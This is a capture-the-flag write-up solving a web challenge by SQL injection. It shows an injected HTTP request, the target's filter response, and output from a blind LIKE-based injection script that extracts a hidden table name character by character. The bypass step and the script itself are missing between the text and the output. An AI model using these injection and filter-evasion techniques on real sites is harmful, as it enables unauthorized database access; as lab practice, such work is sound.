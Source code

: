 # WEB200
## Description
San Tzu Said : 

"Einstein would have been a good DBA, too ... 
What a DBA team : Shakespeare and Einstein ...
But who they will name tables ? that'is the question"

## Solution
According to the challenge's description, the flag in the name of a table (starting with FLAG_).
So We need to exploit an SQL injection to resolve this challenge.

We start by injecting a simple quote in the id parametre using the folowing HTTP request :

```
GET /index.php?id=%27 HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:20.0) Gecko/20100101 Firefox/20.0 Iceweasel/20.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
```
But it seems that there is a filtering mechanism which block malicious charcters :

```
HTTP/1.1 200 OK
Date: Sat, 30 May 2015 22:45:40 GMT
Server: Apache
Vary: Accept-Encoding
Content-Length: 17
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html

Attack Detected !
```

So, we need to determine the pattern used by the target in order to bypass it later. For example, we can try to inject all possible ascii code :

 



```
tmr@os:~$ python exploit.py 
[+] Blind SQL Injection Exploit Using LIKE Technic 
[+] New Guessed Char : E
FLAG_E
[+] New Guessed Char : N
FLAG_EN
[+] New Guessed Char : T
FLAG_ENT
[+] New Guessed Char : A
FLAG_ENTA
[+] New Guessed Char : Y
FLAG_ENTAY
[+] New Guessed Char : A
FLAG_ENTAYA
[+] New Guessed Char : _
FLAG_ENTAYA_
[+] New Guessed Char : M
FLAG_ENTAYA_M
[+] New Guessed Char : 3
FLAG_ENTAYA_M3
[+] New Guessed Char : A
FLAG_ENTAYA_M3A
[+] New Guessed Char : L
FLAG_ENTAYA_M3AL
[+] New Guessed Char : E
FLAG_ENTAYA_M3ALE
[+] New Guessed Char : M
FLAG_ENTAYA_M3ALEM
```
